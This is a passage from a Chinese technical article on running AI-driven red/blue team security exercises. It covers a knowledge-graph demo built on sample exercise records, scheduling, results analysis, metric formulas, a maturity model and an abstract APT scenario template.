        {"technique": "建立后门", "phase": "persistence", "success": True,
         "detection_status": "DETECTED", "stealth_score": 0.5},
        {"technique": "横向移动", "phase": "lateral_movement", "success": True,
         "detection_status": "UNDETECTED", "stealth_score": 0.7},
        {"technique": "数据外带", "phase": "exfiltration", "success": True,
         "detection_status": "DETECTED", "stealth_score": 0.4}
    ]

    defense_records = [
        {"action_type": "isolate", "effectiveness": 0.9, "false_positive": False},
        {"action_type": "block", "effectiveness": 0.85, "false_positive": True},
        {"action_type": "monitor", "effectiveness": 0.75, "false_positive": False},
        {"action_type": "collect", "effectiveness": 0.8, "false_positive": False}
    ]

    print("\n从演练数据中抽取知识...")
    entities, relations = extractor.extract_knowledge_from_exercise(
        exercise_data, attack_records, defense_records
    )

    print(f"  抽取到 {len(entities)} 个知识实体")
    print(f"  抽取到 {len(relations)} 条知识关系")

    print("\n知识实体列表:")
    for entity in entities:
        print(f"  [{entity.entity_type.value}] {entity.name}")
        print(f"      描述: {entity.description}")
        print(f"      置信度: {entity.confidence.value}")

    knowledge_graph = KnowledgeGraphManager()

    for entity in entities:
        knowledge_graph.add_entity(entity)

    for relation in relations:
        knowledge_graph.add_relation(relation)

    print(f"\n构建知识图谱:")
    print(f"  实体总数: {len(knowledge_graph.entities)}")
    print(f"  关系总数: {len(knowledge_graph.relations)}")

    print("\n搜索知识: '钓鱼攻击'")
    search_results = knowledge_graph.search_knowledge("钓鱼攻击")
    for result in search_results:
        print(f"  - {result.name} ({result.entity_type.value})")

    print("\n导出知识图谱:")
    kg_export = knowledge_graph.export_knowledge_graph()
    print(f"  导出时间: {kg_export['export_timestamp']}")
    print(f"  实体数量: {len(kg_export['entities'])}")
    print(f"  关系数量: {len(kg_export['relations'])}")


if __name__ == "__main__":
    demo_knowledge_precipitation()
```

## 六、演练常态化机制设计

### 6.1 演练常态化的战略意义

传统红蓝演练通常作为年度或半年度的安全活动，存在参与度低、组织成本高、效果难以持续等痛点。AI驱动的红蓝演练体系应当支持常态化运行，使攻防对抗成为组织安全能力的持续进化引擎。

演练常态化意味着演练不再是孤立的安全活动，而是融入组织日常安全运营的持续过程。常态化的演练机制能够持续发现安全盲区、验证防御能力、推动安全改进，最终形成“演练-改进-再演练”的持续提升闭环。

### 6.2 分层分类的演练机制设计

```mermaid
gantt
    title AI红蓝演练年度计划
    dateFormat  YYYY-MM-DD
    section 年度
    年度演练规划制定    :2026-01-01, 14d
    重大演练资源准备      :2026-03-01, 30d
    年度演练效果评估      :2026-12-15, 15d
    section 季度
    综合攻防演练 Q1      :2026-04-01, 14d
    综合攻防演练 Q2      :2026-07-01, 14d
    综合攻防演练 Q3      :2026-10-01, 14d
    综合攻防演练 Q4      :2027-01-03, 14d
    section 月度
    红队演练月            :monthly, 7d
    蓝队演练月            :monthly, 7d
    section 周常
    持续威胁评估          :weekly, 2d
    防御规则更新          :weekly, 1d
```

## 七、演练结果分析与应用

### 7.1 多维度演练结果分析框架

演练结果分析是将演练数据转化为安全能力提升的关键环节。我们设计了涵盖攻击分析、防御分析、攻防交互分析、趋势分析四个维度的分析框架。

**攻击分析**关注红队的攻击效果，包括攻击成功率、攻击路径多样性、检测规避能力、目标达成情况等指标。通过攻击分析可以识别哪些攻击技术最有效、哪些防御措施最容易被突破。

**防御分析**关注蓝队的防御效果，包括威胁检出率、响应时间、误报率、防御覆盖率等指标。通过防御分析可以识别哪些防御能力存在不足、哪些场景需要重点加强。

**攻防交互分析**关注红蓝双方的对抗过程，包括攻防回合数、攻防转换速度、对抗激烈程度等指标。通过交互分析可以评估组织在真实对抗环境下的适应能力。

**趋势分析**关注演练结果的时序变化，包括各项指标的环比/同比变化、攻防能力的演进趋势等。通过趋势分析可以评估安全建设的投入产出效果。

### 7.2 演练结果驱动的持续改进

演练结果的最终价值体现在安全能力的持续改进。我们设计了基于演练结果的闭环改进机制：

**技术层面改进**。根据演练中发现的防御盲区，更新检测规则、优化防御策略、加强安全控制措施。

**流程层面改进**。根据演练中暴露的响应流程问题，优化事件分级标准、缩短响应流程、提升协同效率。

**组织层面改进**。根据演练中发现的团队能力差距，调整培训计划、补充专业人才、优化团队配置。

**战略层面改进**。根据演练结果的周期性分析，调整安全预算分配、优化安全技术路线图、更新安全策略目标。

## 八、总结与展望

### 8.1 核心要点回顾

本文围绕AI安全运营红蓝演练这一主题，系统阐述了三大核心创新要素及其协同作用机制。

**AI红队攻击场景自动生成**。通过威胁情报知识图谱与LLM的结合，实现了攻击场景从“人工策划”到“AI生成”的范式升级。攻击路径智能规划算法能够根据不同优化目标（隐蔽性、成功率、速度）生成多条攻击路径，提升演练的多样性和真实性。

**演练指标实时监控与评估**。通过构建覆盖战略层、战术层、操作层、技术层四层指标体系，实现了演练效果从“事后评估”到“实时监控”的升级。实时监控仪表盘使演练组织方能够即时掌握攻防态势，及时调整演练策略。

**演练结果知识沉淀**。通过知识图谱技术实现演练知识的结构化表示和自动抽取，实现了知识管理从“经验流失”到“知识积累”的升级。知识推荐引擎能够根据攻击技术自动推荐有效防御策略，实现演练经验的快速复用。

### 8.2 未来展望

展望未来，AI驱动的红蓝演练将呈现以下发展趋势：

**对抗的智能化升级**。AI将在攻防对抗中扮演越来越重要的角色。AI红队将能够生成更加逼真、更加多样、更加难以检测的攻击；AI蓝队将能够实现更加自动化、更加精准、更加快速的防御。对抗的智能化将推动安全运营从“人工主导”向“人机协同”全面升级。

**演练的常态化普及**。随着AI技术的成熟和工具的普及，红蓝演练将从大型企业的“专利”走向各类组织的“标配”。常态化的AI驱动演练将成为组织持续提升安全能力的核心机制。

**生态的协同进化**。红蓝演练将推动整个安全生态的协同进化。攻击技术的演进将驱动防御能力的提升，防御能力的增强又将激发更高级的攻击技术。这种协同进化将推动网络安全领域整体水平的提升。

---

**参考链接：**

- 主要来源：[MITRE ATT&CK](https://attack.mitre.org/) - 攻击者战术和技术知识库，为攻击场景设计提供权威参考
- 主要来源：[NIST Cybersecurity Framework](https://www.nist.gov/cyberframework) - 网络安全框架，为演练指标体系设计提供标准指导
- 主要来源：[洛克希德·马丁网络杀伤链](https://www.lockheedmartin.com/en-us/cyber/cyber-kill-chain.html) - 攻击阶段模型，为攻击路径规划提供理论基础
- 主要来源：[NSA/CSS技术网络安全作战一体化](https://www.nsa.gov/About/National-Security-Agency/Cybersecurity-Director/) - 演练最佳实践

**附录（Appendix）：**

### A. 演练指标计算公式

**攻击成功率（Attack Success Rate）**：
$$ASR = \frac{N_{success}}{N_{total}} \times 100\%$$

其中 $N_{success}$ 为成功完成的攻击步骤数，$N_{total}$ 为总攻击步骤数。

**检测规避率（Detection Evasion Rate）**：
$$DER = \frac{N_{undetected}}{N_{total}} \times 100\%$$

**防御有效性（Defense Effectiveness）**：
$$DE = \frac{N_{contained}}{N_{detected}} \times 100\%$$

**平均检测时间（Mean Time To Detect, MTTD）**：
$$MTTD = \frac{\sum_{i=1}^{n} (T_{detected,i} - T_{attack,i})}{n}$$

**平均响应时间（Mean Time To Respond, MTTR）**：
$$MTTR = \frac{\sum_{i=1}^{n} (T_{responded,i} - T_{detected,i})}{n}$$

### B. 演练成熟度等级定义

| 等级 | 名称 | 特征 | 评分区间 |
|------|------|------|----------|
| Level 1 | 初始级 | 演练活动不规律，依赖人工评估 | 0-40% |
| Level 2 | 发展级 | 演练定期开展，初步量化评估 | 40-60% |
| Level 3 | 定义级 | 演练体系完整，指标体系成熟 | 60-80% |
| Level 4 | 管理级 | 演练常态运行，持续改进机制 | 80-90% |
| Level 5 | 优化级 | 演练驱动创新，生态协同进化 | 90-100% |

### C. 攻击场景模板配置

```yaml
# APT攻击场景模板配置
apt_scenario:
  name: "高级持续性威胁(APT)攻击"
  phases:
    - reconnaissance
    - initial_access
    - execution
    - persistence
    - defense_evasion
    - credential_access
    - discovery
    - lateral_movement
    - collection
    - exfiltration
  typical_duration_hours: 72
  success_criteria:
    - "获取域管理员权限"
    - "窃取核心业务数据"
    - "建立持久化 foothold"
  difficulty_modifiers:
    beginner:
      detection_rate: 0.8
      block_rate: 0.6
    advanced:
      detection_rate: 0.4
      block_rate: 0.2
```

**关键词：** AI安全运营, 红蓝对抗演练, 攻击场景自动生成, 实时指标监控, 知识图谱沉淀, 攻防对抗, 演练常态化, 安全能力评估, 强化学习优化, 威胁情报